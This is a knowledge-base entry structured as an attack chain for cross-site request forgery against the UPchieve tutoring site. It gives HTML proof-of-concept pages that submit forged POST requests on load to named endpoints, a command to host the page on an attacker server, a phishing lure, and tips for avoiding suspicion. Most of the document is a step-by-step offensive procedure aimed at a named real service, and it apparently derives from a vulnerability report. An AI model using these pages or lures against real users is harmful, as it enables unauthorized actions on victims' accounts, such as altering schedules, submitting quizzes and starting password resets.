

---
tags:
  - csrf
  - web-application
  - session-exploitation
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Create-CSRF-Proof-of-Concept-HTML-Page]]'
  - '[[procedures/Host-Malicious-CSRF-Page]]'
  - '[[procedures/Induce-Victim-to-Visit-CSRF-Page]]'
  - '[[procedures/Verify-CSRF-Exploitation-Success]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T17:27:42.314Z'
description: >-
  Multi-stage attack chain exploiting missing CSRF tokens and SameSite
  attributes in UPchieve to perform unauthorized authenticated actions on behalf
  of logged-in users, such as modifying schedules, submitting quizzes, and
  requesting resets.
skill_level: intermediate
impact_level: high
id: 9eafd7c5-6c1e-4059-8076-d1e37fe1d001
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
---
# CSRF Exploitation on Multiple Authenticated POST Endpoints in UPchieve

Multi-stage attack chain demonstrating a complete CSRF workflow against the UPchieve web application, where the absence of CSRF tokens on POST endpoints and lack of SameSite attributes on session cookies allow cross-site form submissions to perform arbitrary authenticated actions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Basic text editor for HTML
- Web server (e.g., Python's built-in HTTP server)

### Target Environment

- UPchieve web application at https://hackers.upchieve.org/
- Authenticated user session
- Vulnerable POST endpoints like /api/calendar/save, /api/training/score

### Initial Access Requirements

- Victim must be logged in to UPchieve
- Attacker must control a domain/server to host the malicious page
- Knowledge of vulnerable endpoints and required parameters (e.g., via reconnaissance or source analysis)

## Detailed Attack Procedures

### Step 1: Ensure Victim Authentication

**Objective**: Establish a valid session for the victim in their browser, enabling automatic cookie inclusion in cross-site requests.

**Instructions**: The victim must log in to https://hackers.upchieve.org/, creating a session cookie without SameSite protection. This step relies on social engineering or prior knowledge that the victim is authenticated.

**Expected Output**: Valid session established; no direct attacker involvement.

**Success Indicators**:
- Victim's browser has active UPchieve session cookie
- Subsequent requests from victim's browser include the cookie

### Step 2: Create Malicious HTML Page
procedure: [[procedures/Create-CSRF-Proof-of-Concept-HTML-Page]]

**Objective**: Construct an HTML page with an auto-submitting form targeting a vulnerable POST endpoint to forge authenticated requests.

**Instructions**: Use a text editor to create an HTML file (e.g., csrf_poc.html) with a hidden form and JavaScript to submit it immediately upon load. Target endpoints like /api/calendar/save for schedule changes or /api/training/score for quiz submissions. Ensure content-type is application/x-www-form-urlencoded.

Example for calendar modification:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf-form" action="https://hackers.upchieve.org/api/calendar/save" method="POST">
  <input type="hidden" name="availability[Sunday][12a]" value="true">
</form>
<script>
  document.getElementById('csrf-form').submit();
</script>
</body>
</html>
```

Adapt the form for other endpoints, e.g., for quiz submission:

```html
<form id="csrf-form" action="https://hackers.upchieve.org/api/training/score" method="POST">
  <input type="hidden" name="quiz_id" value="123">
  <input type="hidden" name="answers" value="[correct_answers]">
</form>
<script>
  document.getElementById('csrf-form').submit();
</script>
```

**Expected Output**: HTML file ready for hosting.

**Success Indicators**:
- Form targets correct endpoint and parameters
- JavaScript auto-submits on load

### Step 3: Host the Malicious Page
procedure: [[procedures/Host-Malicious-CSRF-Page]]

**Objective**: Serve the crafted HTML from an attacker-controlled server to enable delivery to the victim.

**Instructions**: Upload the HTML file to an attacker-controlled domain or local server. Use a simple HTTP server like Python's built-in module to host it.

Run the following to host on port 8000:

```bash
python3 -m http.server 8000
```

Access the page at http://attacker-ip:8000/csrf_poc.html. For production, use a public domain to avoid suspicion.

**Expected Output**: Page accessible via URL.

**Success Indicators**:
- Malicious page loads without errors
- Form submits to target when loaded in browser

### Step 4: Induce Victim to Visit the Page
procedure: [[procedures/Induce-Victim-to-Visit-CSRF-Page]]

**Objective**: Trick the authenticated victim into loading the malicious page in their browser, triggering the CSRF submission.

**Instructions**: Deliver the URL via phishing email, malicious link in chat, or compromised site. Ensure the victim is logged into UPchieve when they visit, as the browser will include the session cookie automatically. CORS prevents reading responses, but the action completes silently.

Example phishing lure: "Check this updated tutor schedule: http://attacker.com/csrf_poc.html"

**Expected Output**: Victim's browser submits the forged POST request.

**Success Indicators**:
- Page loads and form submits (observable in dev tools if testing)
- No visible errors to victim

### Step 5: Verify the Action
procedure: [[procedures/Verify-CSRF-Exploitation-Success]]

**Objective**: Confirm the unauthorized action was performed on the victim's account.

**Instructions**: Access the victim's account (via compromise or observation) to check for changes, such as updated availability in calendar, submitted quiz scores, sent reset emails, or updated volunteer info. Server responses like {"msg":"Schedule saved"} may be logged if accessible.

**Expected Output**: Evidence of changes, e.g., modified schedule or email sent.

**Success Indicators**:
- Account settings altered
- Quiz or reference submitted
- No alerts triggered

## Attack Chain Summary

### Key Achievements

1. Forged authenticated POST requests to multiple endpoints without CSRF protection
2. Performed actions like schedule modification, quiz submission, password reset initiation, and volunteer approval steps
3. Exploited SameSite-lacking cookies for seamless cross-site execution

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
